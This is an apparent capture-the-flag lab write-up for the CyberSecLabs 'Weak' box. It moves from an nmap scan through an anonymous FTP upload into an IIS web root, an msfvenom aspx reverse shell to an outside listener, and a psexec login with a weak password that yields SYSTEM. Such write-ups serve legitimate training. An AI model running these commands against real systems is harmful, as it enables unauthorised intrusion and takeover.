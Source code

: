 ```yaml
---
layout: page
title: Weak - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/weak.html
---
```


# Weak - CyberSecLabs
----

First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.11`

![image](https://user-images.githubusercontent.com/50459517/103789467-a9dfb100-5005-11eb-9164-5fb734a473da.png)

Looks like we have serveral interesting ports open.  First thing I notice in the nmap output is the FTP results.  It looks like the contents for anonymous login are files found in a default IIS page.  We have IIS running on port 80 so lets see if it is a default page or not.

![image](https://user-images.githubusercontent.com/50459517/103789497-b49a4600-5005-11eb-9882-88dc5d139acc.png)

It is!  Lets test and see if this FTP server is linked to the root of this web server.  We can test this by putting a file on the server via FTP and then access it via HTTP.  If it works, we may be able to execute a script via HTTP that could give us a shell!

![image](https://user-images.githubusercontent.com/50459517/103789528-bfed7180-5005-11eb-880b-0f807fc2c88a.png)

I was getting an error saying the server cannot accept the argument **ls** which I had never seen before.  I looked this up and decided to see what wireshark showed when I sent the **ls** command.

![image](https://user-images.githubusercontent.com/50459517/103789571-c976d980-5005-11eb-9824-41e38f57b896.png)

It looks like it is using the **PORT** command with some arguments that look like my IP address which I'm not for sure why.  I read up and someone suggested to try in passive mode as it may be a connection issue with active mode.  So I switched and now everything seems good.

![image](https://user-images.githubusercontent.com/50459517/103789600-d4316e80-5005-11eb-88aa-1c643e9066f7.png)

I put the file **test.txt** on the server via FTP and accessed with HTTP successfully.

![image](https://user-images.githubusercontent.com/50459517/103789632-dd224000-5005-11eb-9243-7e27958ca040.png)

![image](https://user-images.githubusercontent.com/50459517/103789672-e6aba800-5005-11eb-8370-90af3b93904f.png)

Now lets try to generate an aspx payload with **msfvenom**.  We will use a x64 payload first and see what we get.  If it fails we may try an x86 instead.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.0.11 LPORT=1337 -f aspx > shell.aspx`

![image](https://user-images.githubusercontent.com/50459517/103789705-ee6b4c80-5005-11eb-83c8-7e55afc2fa54.png)

Now we will copy the payload to the server, start a netcat listener, and execute via HTTP.

![image](https://user-images.githubusercontent.com/50459517/103789813-0ba01b00-5006-11eb-86a7-0934c61831ae.png)

![image](https://user-images.githubusercontent.com/50459517/103789853-15c21980-5006-11eb-9051-2acac552760b.png)

![image](https://user-images.githubusercontent.com/50459517/103789879-1e1a5480-5006-11eb-822b-21cae0485074.png)

We have a shell as low level user.  Awesome!  Now time to escalate.

After some manual enumeration, we find a directory on the root of the hard drive called **Development** which looks interesting.  Inside is a file called **README.txt** so lets look at its contents.

![image](https://user-images.githubusercontent.com/50459517/103789906-283c5300-5006-11eb-991c-8e4d09e94fbc.png)

Hmmm.  Looks like someone is using an insecure password.  We can assume it is not the administrator account since this note seems to be signed by the Administrator.  Lets look and see what users we may have on this machine.

![image](https://user-images.githubusercontent.com/50459517/103789933-31c5bb00-5006-11eb-9fe8-e03b0eac3fbb.png)

Since we are currently Alpha Site, lets see if we can authenticate with Web Admin.  I tried a few default passwords like **admin**, **password**, etc. All failed and I thought I would try to brute force untill I tried "**Password"** which is what was in the **README** file.  I got a message saying it could not access because of insufficient user privileges.  This is good as it indicates we have a valid set of creds, just can't be used via RDP.

![image](https://user-images.githubusercontent.com/50459517/103789965-3b4f2300-5006-11eb-874e-086a8ab17961.png)

So since we have SMB services running, lets try to get a shell with **psexec**

`psexec.py](http://psexec.py/) 'Web Admin':'Password'@172.31.1.11`

![image](https://user-images.githubusercontent.com/50459517/103790016-499d3f00-5006-11eb-8bf9-e4444be80986.png)

There we go.  We are now System on the machine!
